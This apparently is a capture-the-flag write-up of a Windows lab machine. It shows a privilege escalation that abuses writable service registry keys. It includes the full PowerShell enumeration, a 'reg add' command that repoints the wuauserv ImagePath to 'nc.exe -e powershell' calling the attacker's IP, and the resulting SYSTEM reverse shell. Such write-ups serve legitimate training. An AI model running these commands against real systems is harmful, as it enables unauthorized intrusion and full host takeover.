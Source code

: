 ```

```
```
PS C:\Users\Hector\Documents> get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "hector Users Path Everyone" | measure
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "hector Users Path Everyone" | measure


Count    : 3427
Average  : 
Sum      : 
Maximum  : 
Minimum  : 
Property : 
```

We can confirm that `Hector\Control` has permission for `wuau` (Windows update Automatic Update) as well.<br>
We can take advantage of this because...<br>
1. We can restart it manually.
2. It is already configured to run as LocalSystem.
```
PS C:\Users\Hector\Documents> get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "hector Users Path Everyone" | findstr /i "wuau"
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "hector Users Path Everyone" | findstr /i "wuau"
PSPath                  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\wuau
Path                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\wuau
```

Plan to get a reverse shell as `NT AUTHORITY\SYSTEM`.<br>
First, launch a netcat listener on port 4445.
```shell
root@kali:~# nc -nlvp 4445
listening on [any] 4445 ...

```

Since we've uploaded `nc.exe` already, we can use the following command.<br>
Edit the `ImagePath` attribute of `HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\wuau`.<br>
To start the service, we need to run `Start-Service wuauserv`.
```shell
PS C:\> reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\inetpub\wwwroot\nc.exe -e powershell 10.10.14.42 4445" /f
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\inetpub\wwwroot\nc.exe -e powershell 10.10.14.42 4445" /f
The operation completed successfully.
PS C:\> Start-Service wuauserv
```

Now we got a reverse shell as `NT AUTHORITY\SYSTEM`.
```shell
root@kali:~# nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.167] 51404
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

